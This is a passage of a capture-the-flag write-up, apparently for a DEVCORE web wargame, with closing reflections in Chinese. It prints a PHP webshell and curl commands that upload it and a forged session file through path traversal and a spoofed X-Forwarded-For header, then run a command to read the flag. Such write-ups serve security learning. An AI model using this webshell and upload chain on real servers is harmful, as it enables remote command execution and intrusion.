 ```php=
<?php system($_GET["cmd"]); ?>
```

### Final payload
* Upload webshell
```bash=
curl http://web.ctf.devcore.tw/b8ck3nd/upload.php -F 'file=@"./webshell.php"' -F "rename=entroy.php" -F "folder=../../../../../../usr/share/nginx/images" --cookie "PHPSESSID=trh3kajnbnbr562pnhkdk3nr8n" -H "x-forwarded-for: 127.0.0.1" -v 3
```
* Upload phpsessionid
```bash=
curl http://web.ctf.devcore.tw/b8ck3nd/upload.php -F 'file=@"./session"' -F "rename=sess_trh3kajnbnbr562pnhkdk3nr8n" -F "folder=../../../../../../tmp" --cookie "PHPSESSID=trh3kajnbnbr562pnhkdk3nr8n" -H "x-forwarded-for: 127.0.0.1" -v 3
```
* Get flag
```bash=
curl http://web.ctf.devcore.tw/b8ck3nd/index.php?cmd=/readflag
```

## 心得
* 我卡在奇怪的地方有點久（我就爛，只能說最早解完的 splitline 真的很強啊！！！這次的 web 滲透測試真的做得滿好的，有學到東西的感覺，雖然都知道這些漏洞，不過當要把他們串在一起的時候會卡住，可想而知在串 Exchange server 的 RCE 有多難了。體驗了一個很接近 real world 的 wargame，至少比起去年的我一題都解不出來要好很多了（www，感謝出題者以及 @txya900619 的幫助 --- @entroy 
* 還蠻好玩的，很多題都是蠻意外的解法，尤其是最後一題我還真的是沒有想到可以這樣串，總結來說，解完這次的題目真的是學到蠻多的。


